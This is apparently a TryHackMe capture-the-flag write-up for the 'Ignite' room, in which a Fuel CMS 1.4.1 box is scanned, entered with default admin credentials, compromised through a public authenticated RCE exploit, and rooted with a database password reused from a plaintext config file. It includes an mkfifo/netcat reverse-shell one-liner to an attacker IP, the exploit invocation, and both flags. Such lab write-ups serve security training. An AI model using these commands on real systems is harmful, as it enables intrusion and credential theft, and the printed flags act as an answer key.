


# Ignite

**Room:** [Ignite](https://tryhackme.com/room/ignite) · **Difficulty:** Easy · **OS:** Linux

A Fuel CMS box where `robots.txt` points straight at the admin panel, default credentials get you logged in, and a known authenticated RCE exploit for that CMS version turns the login into a shell. Root falls to a reused database password.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -p- --min-rate 1000 -T4 -sV -Pn -oA nmap_full_scan 10.48.150.42
```

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Only HTTP is exposed, so the entire attack surface is the web application.

### Content discovery

```bash
ffuf -u "http://10.48.150.42/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
README.md               [Status: 200]
assets                  [Status: 403]
offline                 [Status: 200]
robots.txt              [Status: 200]
sitemap_xml             [Status: 200]
```

---

## 2. Identifying and logging into Fuel CMS

`robots.txt` discloses the path the site owner wanted hidden from search engines, which is exactly the admin path worth checking first:



```text
User-agent: *
Disallow: /fuel/
```

Visiting `/fuel/` shows a **Fuel CMS** login page. Fuel CMS ships with a well-known default account, `admin` / `admin`, and it works here:



---

## 3. Foothold — Fuel CMS 1.4.1 RCE

With the CMS identified and an authenticated session available, `searchsploit` is checked for public exploits matching the version:

```bash
searchsploit 'fuel cms 1.4'
```

```text
fuel CMS 1.4.1 - Remote Code Execution (1)                     | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                      | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                      | php/webapps/50477.py
```

Fuel CMS 1.4.1 has a known **authenticated RCE** (it evaluates PHP inside page-preview parameters), so the third exploit is run against the target with the default credentials already known to work:

```bash
python3 50477.py -u http://10.48.150.42/
```

```text
[+]Connecting...
Enter Command $ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt
```

This gives an interactive command-execution primitive as the web server user. A standard `mkfifo` reverse shell upgrades that to a real shell:

```bash
Enter Command $rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4444 > /tmp/f
```

### Stabilizing the shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
reset
```

### User flag

```bash
cat /home/www-data/flag.txt
```

```text
6470e394cbf6dab6a91682cc8585059b
```

---

## 4. Privilege escalation — reused database password

Fuel CMS's own database config file is readable and stores the MySQL credentials in plaintext, which is worth checking for password reuse against system accounts:

```bash
cat /var/www/html/fuel/application/config/database.php
```

```text
$db['default'] = array(
    ...
    'username' => 'root',
    'password' => 'mememe',
    'database' => 'fuel_schema',
    ...
);
```

The database password `mememe` is tried against `su root`, and it works:

```bash
su root
```

### Root flag

```bash
cd /root
cat root.txt
```

```text
b9bbcb33e11b80be759c4e844862482d
```
